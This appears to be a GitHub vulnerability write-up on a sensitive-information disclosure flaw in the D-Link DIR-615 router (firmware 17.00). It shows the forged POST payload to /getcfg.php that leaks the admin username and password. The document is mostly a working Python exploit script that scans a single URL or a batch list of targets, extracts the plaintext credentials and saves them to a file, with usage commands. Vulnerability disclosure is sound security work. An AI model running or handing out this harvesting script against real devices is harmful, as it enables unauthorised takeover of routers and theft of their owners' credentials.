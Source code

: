 # D-LINK-DIR-615
## Sensitive information disclosure vulnerability in D-Link dir-615 Hardware Version : Q1 Firmware Version : 17.00

Sensitive information disclosure vulnerability exists in D-Link dir-615 Hardware Version : Q1 Firmware Version : 17.00. An attacker can obtain a user name and password by forging a post request to the / getcfg.php page


## harm

An attacker can access this page without authorization, obtain the user name and password in plaintext, and obtain background management privileges after logging in to the background


## Test method
1. Visit the d-link-dir-615 background login page

![image](https://user-images.githubusercontent.com/90023952/131967300-7de24cb6-2c48-4c29-9e80-c89ca244ccd4.png)

2. Enter any password, then grab the packet and modify the packet content as follows

![image](https://user-images.githubusercontent.com/90023952/131959930-bdc051b1-e234-4803-972d-adf58ddeb554.png)

![image](https://user-images.githubusercontent.com/90023952/131959858-ace71dc7-41c0-4f25-852d-ecc01f2016fd.png)

3.Use the obtained user name and password to successfully log in to the background

![image](https://user-images.githubusercontent.com/90023952/131967546-aedaccf8-c7e6-45a2-aad3-3b30c0869a6a.png)

## Script automation detection

```
import requests
import argparse
import re
import urllib3
urllib3.disable_warnings()
parser = argparse.ArgumentParser(description='api help')
parser.add_argument('-u','--url', help='Please Input a url!',default='')
parser.add_argument('-r','--read', help='Please Input a file!',default='')
args=parser.parse_args()
url=args.url
file=args.read

if url !="":
    url=url+"/getcfg.php"
    header={
    "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36",
    "Content-Type":"application/x-www-form-urlencoded",
    "Cookie":"",
    "X-Forwarded-For":"127.0.0.1"
            }
    data = ("SERVICES=DEVICE.ACCOUNT&AUTHORIZED_GROUP=1%0a")
    response=requests.post(url,data=data,headers=header,verify=False,timeout=10)
    print(response.text)
    if  "DEVICE.ACCOUNT" in response.text and response.status_code == 200:
        print("[" + url + "]" + "[===dangerous===]")
    else:
        print("["+url+"]"+"[safe]")

if file !="":
    txt=file
    f=open(txt,'r+')
    for i in f.readlines():
        url=i.strip()
        url=url+"/getcfg.php"
        header={
        "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36",
        "Content-Type":"application/x-www-form-urlencoded",
        "Cookie":"",
        "X-Forwarded-For": "127.0.0.1"
        }
        data = ("SERVICES=DEVICE.ACCOUNT&AUTHORIZED_GROUP=1%0a")
        try:
            response=requests.post(url,data=data,headers=header,verify=False,timeout=10)
            if "DEVICE.ACCOUNT" in response.text and response.status_code == 200:
                name = re.findall('<name>.*', response.text)
                password = re.findall('<password>.*', response.text)
                print("[" + url + "]" + "[===dangerous===]")
                w = open("DIR-615-Vulnerability-file.txt", "a")
                w.write(url + '\r\n' + repr(name) + repr(password) + '\r\n')
            else:
                print("[" + url + "]" + "[safe]")
        except Exception as e:
            print("["+url+"]"+"[safe]",format(e))


```
1. Detect a single URL

python D-LINK-DIR-615.py -u http://xxx.xxx.xxx.xxx

![image](https://user-images.githubusercontent.com/90023952/131964546-cfb63863-5e3e-46a0-a237-94076f6a47d2.png)

2. Batch inspection

python D-LINK-DIR-615.py -r file.txt

![image](https://user-images.githubusercontent.com/90023952/131964614-304bcbfe-3938-4375-93ae-da72ee297b54.png)

After the batch detection script is executed, a file named "dir-615-vulnerability-file. TXT" will be generated in the current folder, with the contents of vulnerability URL and explored user name and password

![image](https://user-images.githubusercontent.com/90023952/131964740-c30b05a7-86e2-4345-8b10-a63e82d6df98.png)

![image](https://user-images.githubusercontent.com/90023952/131964819-83b55c78-5dc5-48a7-b62a-acab7258a838.png)




